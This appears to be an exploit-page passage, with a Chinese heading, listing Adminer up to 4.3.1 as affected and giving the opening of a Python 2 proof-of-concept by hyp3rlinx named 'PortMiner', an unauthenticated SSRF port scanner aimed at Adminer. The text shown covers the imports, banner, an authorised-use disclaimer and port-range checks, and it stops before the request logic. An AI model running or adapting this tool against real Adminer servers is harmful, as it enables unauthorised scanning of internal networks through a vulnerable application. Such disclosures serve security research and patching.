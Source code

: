 漏洞影響
--------

Adminer\<=4.3.1

POC
---

    import socket,re,ssl,warnings,subprocess,time
    from platform import system as system_name
    from os import system as system_call

    #Adminer Server Side Request Forgery
    #PortMiner Scanner Tool
    #by John Page (hyp3rlinx)
    #ISR: ApparitionSec
    #hyp3rlinx.altervista.org
    #=========================
    #D1rty0Tis says hi.

    #timeout
    MAX_TIME=32
    #ports to log
    port_lst=[]
    #Web server response often times out but usually means ports open.
    false_pos_ports=['80','443']

    BANNER='''
               ____            _   __  __ _
              |  _  \         | | |  \/  (_)
              | |__) |__  _ __| |_| \  / |_ _ __   ___ _ __
              |  ___/ _ \| '__| __| |\/| | | '_ \ / _ \ '__|
              | |  | (_) | |  | |_| |  | | | | | |  __/ |
              |_|   ___/|_|   __|_|  |_|_|_| |_|___|_|
           '''


    def info():
        print "\nPortMiner depends on Error messages to determine open/closed ports."
        print "Read operations reported 'timed out' may be open/filtered.\n"


    def greet():
        print 'Adminer Unauthenticated SSRF Port Scanner Tool'
        print 'Targets Adminer used for MySQL administration\n'
        print 'by hyp3rlinx - apparition security'
        print '-----------------------------------------------------\n'
        print 'Scan small ranges or single ports or expect to wait.\n'
        print 'Do not scan networks without authorized permission.'
        print 'Author not responsible for abuse/misuse.\n'


    def chk_ports(p):
        p=p.replace('-',',')
        port_arg=p.split(',')
        try:
            if len(port_arg)>1:
                if int(port_arg[1]) < int(port_arg[0]):
                    print 'Port range not valid.'
                    raw_input()
                    return
                if int(port_arg[1])>65535:
                    print 'Exceeded max Port range 65535.'
                    raw_input()
                    return